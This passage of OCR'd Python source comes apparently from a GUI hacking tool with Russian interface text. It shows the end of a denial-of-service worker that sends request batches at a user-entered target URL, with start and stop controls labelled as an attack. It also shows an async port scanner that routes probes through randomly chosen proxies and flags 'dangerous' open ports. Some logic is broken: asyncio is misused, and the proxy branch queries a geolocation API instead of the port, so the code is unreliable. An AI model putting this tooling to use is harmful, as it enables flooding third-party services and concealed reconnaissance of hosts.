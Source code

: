             completed += 1
        asyncio.run(asyncio.gather(*tasks))
        self.dos_progress["value"] = (completed / total_requests) * 100
        self.dos_status.config(text=f"Выполнено: {completed}/{total_requests}")
        self.root.update()
        time.sleep(1 / rate_limit)
    self.stop_dos()

def start_dos(self):
    if self.dos_running or not self.target_url.get():
        messagebox.showwarning("Ошибка", "Введите цель")
        return
    self.dos_running = True
    self.dos_start_btn["state"] = "disabled"
    self.dos_stop_btn["state"] = "normal"
    self.dos_progress["value"] = 0
    self.dos_status.config(text="Атака начата...")
    threading.Thread(target=self.dos_worker, daemon=True).start()

def stop_dos(self):
    self.dos_running = False
    self.dos_start_btn["state"] = "normal"
    self.dos_stop_btn["state"] = "disabled"
    self.dos_status.config(text="Остановлено")

async def scan_port(self, ip, port, proxy=None):
    try:
        if self.port_scan_use_proxy.get() and proxy:
            proxy_type, proxy_addr = proxy.split("://")
            async with aiohttp.ClientSession() as session:
                async with session.get(
                    f"http://ip-api.com/json/{ip}",
                    proxy=proxy,
                    timeout=self.timeout.get()
                ) as resp:
                    data = await resp.json()
                    return data
        else:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(self.timeout.get())
            result = sock.connect_ex((ip, port))
            sock.close()
            if result == 0:
                service = DANGEROUS_PORTS.get(port, {"name": "Unknown", "risk": "Unknown"})["name"]
                risk = DANGEROUS_PORTS.get(port, {"name": "Unknown", "risk": "Unknown"})["risk"]
                return {"ip": ip, "port": port, "status": "Открыт", "service": service, "risk": risk}
            return None
    except Exception as e:
        print(f"Ошибка при сканировании порта {port} для IP {ip}: {e}")
        logging.error(f"Ошибка сканирования {ip}:{port}: {e}")
        return None

def port_scan_worker(self):
    total = len(self.port_scan_targets) * len([port for port, var in self.port_selection.items() if var.get()])
    checked = 0
    proxies = [self.port_scan_proxy_listbox.get(i) for i in range(self.port_scan_proxy_listbox.size())]
    with ThreadPoolExecutor(max_workers=self.port_scan_threads.get()) as executor:
        for target in self.port_scan_targets:
            for port, var in self.port_selection.items():
                if not self.port_scan_running or not var.get():
                    continue
                proxy = random.choice(proxies) if proxies and self.port_scan_use_proxy.get() else None
                result = asyncio.run(self.scan_port(target, port, proxy))
                if result: